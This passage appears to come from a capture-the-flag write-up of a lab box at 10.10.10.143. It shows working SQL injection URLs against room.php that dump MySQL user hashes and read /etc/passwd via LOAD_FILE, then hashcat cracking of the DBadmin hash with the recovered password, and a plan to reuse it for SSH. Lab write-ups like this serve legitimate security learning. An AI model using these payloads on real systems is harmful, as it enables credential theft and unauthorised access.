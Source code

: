 ```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20NULL,%20host,%20NULL,%20user,%20password,%20NULL,NULL%20FROM%20mysql.user;%20--+
```

And we get a hash!

- `DBadmin`:`*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`

Throwing into hashcat:

```sh
❯ hashid "*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0"
Analyzing '*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0'
[+] MySQL5.x
[+] MySQL4.1

❯ hashcat -O -a0 -w3 --quiet -m 300 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 /mnt/vm-share/rockyou.txt
2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
```

Nice! If we get other users on the box, maybe we can reuse those creds for SSH.

Maybe we can read the `/etc/passwd` file to get users? Trying `LOAD_FILE('/etc/passwd')`:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20NULL,%20LOAD_FILE(%27/etc/passwd%27),%20NULL,%204,%205,%20NULL,NULL;%20--+
```

And it works!

![](img/web-sqli-etc-passwd.png)
